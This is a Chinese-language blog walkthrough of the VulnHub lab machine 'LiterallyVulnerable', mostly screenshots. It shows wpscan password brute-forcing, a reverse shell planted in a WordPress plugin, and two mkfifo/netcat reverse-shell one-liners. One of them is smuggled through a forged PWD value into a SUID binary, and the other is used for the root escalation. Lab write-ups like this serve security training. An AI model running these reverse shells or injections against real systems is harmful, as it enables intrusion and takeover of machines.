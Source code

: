 ```yaml
---
layout: post
title:  "vulnhub >_ LiterallyVulnerable"
description: walkthrough
category: vulnhub
---
```

# LiterallyVulnerable

![image-20200713222221001]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200713222221001.png)

![image-20200713223445927]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200713223445927.png)

![image-20200713224443396]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200713224443396.png)

![image-20200714014817277]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714014817277.png)

![image-20200714015246460]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714015246460.png)

80

![image-20200714015815871]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714015815871.png)

显示不正确，先加个hosts

![image-20200714015859359]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714015859359.png)

![image-20200714020013972]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714020013972.png)

![image-20200714020129568]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714020129568.png)

![4]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714020512891.png)

admin用户确认。

利用之前的密码名单尝试暴力

```bash
wpscan --url http://literally.vulnerable/ -e u,vp -P backupPasswords
```

 wpscan

![image-20200714022902910]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714022902910.png)

又一个wp

![image-20200714023118484]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714023118484.png)



![image-20200714024915017]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714024915017.png)



![image-20200714024716629]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714024716629.png)



在其中的帖子中发现

![image-20200714024821740]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714024821740.png)

看来密码应该是用在这里的

同样的密码名单在65535端口上再次做同样的尝试

![image-20200714024055228]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714024055228.png)

```bash
maybeadmin
$EPid%J2L9LufO5
```

登录成功。

![image-20200714030143544]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714030143544.png)

在已经发布的页面中查看被密码保护的帖子

![image-20200714030000867]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714030000867.png)

一个新的凭证

![image-20200714030503566]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714030503566.png)

```bash
notadmin:Pa$$w0rd13!&
```

成功重新登录

![image-20200714030634840]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714030634840.png)

登录后台通过修改404提交rshell

![image-20200714031031348]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031031348.png)

![image-20200714031113664]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031113664.png)

报错。尝试修改插件

![image-20200714031256174]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031256174.png)

![image-20200714031315282]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031315282.png)

成功

```bash
http://literally.vulnerable:65535/phpcms/wp-content/plugins/akismet/akismet.php
```

浏览器浏览。在监听端口获得shell

![image-20200714031634455]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031634455.png)

两个用户

![image-20200714031810188]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031810188.png)

![image-20200714033022926]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714033022926.png)

分析一下这个二进制程序

![image-20200714033331295]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714033331295.png)

![image-20200714033412814]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714033412814.png)

尝试运行

![image-20200714033305286]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714033305286.png)

所以是抓取了当前路径。echo出来，如果路径指向文件，则能以root越权echo其他用户的文件

同样的我们可以通过伪造目录向这个程序注入命令。

尝试一下

![image-20200714034601720]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714034601720.png)

简单的成功注入

再次修改，尝试获得shell，尝试很多种语句，最终确定下面的语句

```bash
export PWD=';rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.132 1338 >/tmp/f'
./itseasy
```

![image-20200714035907266]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714035907266.png)

![image-20200714035952205]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714035952205.png)

成功切换到 john

![image-20200714040204273]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714040204273.png)

在目录下枚举

![image-20200714040321106]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714040321106.png)

![image-20200714040442975]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714040442975.png)

发现john的凭证

```bash
john:YZW$s8Y49IB#ZZJ
```

有凭证之后肯定要查看sudo

![image-20200714040610072]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714040610072.png)

html路径权限是www-data权限。

返回之前的shell

通过echo伪造test.html

```bash
echo '#!/bin/bash' > test.html
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.132 1339 >/tmp/f' >> test.html
```

![image-20200714041437905]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714041437905.png)

增加运行权限

![image-20200714041818532]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714041818532.png)

在1339建立监听

我们已经有john的凭证，直接ssh登录。john

```bash
ssh john@192.168.110.135
```

通过运行获得root shell

![image-20200714041910022]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714041910022.png)

![image-20200714042132754]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714042132754.png)

